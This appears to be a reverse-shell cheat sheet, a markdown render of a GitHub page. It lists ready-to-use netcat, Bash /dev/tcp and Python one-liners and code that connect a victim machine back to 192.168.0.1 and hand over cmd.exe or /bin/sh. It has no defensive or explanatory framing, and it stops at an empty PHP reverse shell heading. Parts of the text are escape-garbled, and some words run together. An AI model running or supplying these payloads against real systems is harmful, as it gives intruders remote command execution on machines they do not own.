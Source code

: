 
\-\-\- 




#### Windows 



Victim:
nc \-nlvp 4444 \-e cmd\.exe

Attacker:
nc 192\.168\.0\.1 4444

## Bash 




\-\-\- 




### Reverse Shell 



/bin/bash \-i \>\&/dev/tcp/192\.168\.0\.1/4433 0\>\&1

## Python 




\-\-\- 




### Reverse Shell 



As Command:
python \-c 'import socket,subprocess,os;s=socket\.socket\(socket\.AF\_INET,socket\.SOCK\_STREAM\);s\.connect\(\("192\.168\.0\.1",4444\)\);os\.dup2\(s\.fileno\(\),0\); os\.dup2\(s\.fileno\(\),1\); os\.dup2\(s\.fileno\(\),2\);p=subprocess\.call\(\["/bin/sh","\-i"\]\);'

Python Code:
importsocket,subprocess,os
s=socket\.socket\(socket\.AF\_INET,socket\.SOCK\_STREAM\)
s\.connect\(\("192\.168\.0\.1",4444\)\);os\.dup2\(s\.fileno\(\),0\)
os\.dup2\(s\.fileno\(\),1\)
os\.dup2\(s\.fileno\(\),2\)
p=subprocess\.call\(\["/bin/sh","\-i"\]\)PHP

### Kali Default PHP Reverse Shell 


